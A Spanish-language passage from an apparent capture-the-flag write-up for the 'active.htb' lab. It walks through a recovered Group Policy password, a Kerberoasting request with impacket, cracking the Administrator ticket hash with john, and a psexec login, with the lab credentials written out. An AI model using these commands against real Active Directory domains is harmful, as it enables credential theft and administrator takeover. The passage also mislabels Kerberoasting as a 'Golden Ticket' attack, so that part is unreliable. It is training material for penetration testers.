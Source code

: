 Y esto nos devolvera como resultado la contraseña en texto plano desencriptada, que por ejemplo pongamos que seria esta:

```
GPPstillStandingStrong2k18
```

Y tambien tendriamos el usuario de dicha contraseña, ya que el nombre del usuario se encuentra dentro del archivo `groups.xml` que en este caso se llamara `SVC_TGS`

### Ataque Kerberoasting (Golden Ticket)

Teniendo las credenciales de un usuario, podremos probar a ejecutar un ataque llamado `KERBEROASTING` de `Active Directory` para obtener su `Golden Ticket` del administrador y asi obtener los maximos privilegios, por lo que haremos lo siguiente:

```shell
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

Y con esto obtendriamos el hash `administrador` mediante la cuenta de `SVC_TGS`, que se veria algo asi:

```
$krb5tgs$23$*Administrator$ACTIVE.LOCAL$active.htb/Administrator*$<HASH_ADMIN>...
```

Por lo que copiaremos el hash entero y lo pegaremos en un archivo de texto:

```shell
nano hash

#Dentro del nano
$krb5tgs$23$*Administrator$ACTIVE.LOCAL$active.htb/Administrator*$<HASH_ADMIN>...
```

Lo guardamos y lo intentaremos crackear.

```shell
john --wordlist=<WORDLIST> hash
```

Si todo sale bien, deberiamos de poder crackearlo en tal caso de que sea una contarseña debil, se deberia de ver algo tal que asi:

```
Ticketmaster1968 (?)
```

Pongamos que esa es la contraseña del `Administrator`.

### psexec user admin

Por lo que teniendo la contraseña del administrador, nos conectaremos directamente desde la herramienta `psexec`.

```shell
impacket-psexec active.htb/Administrator:Ticketmaster1968@<IP_VICTIM> cmd.exe
```

Y con esto estariamos dentro como el usuario `administrador`.
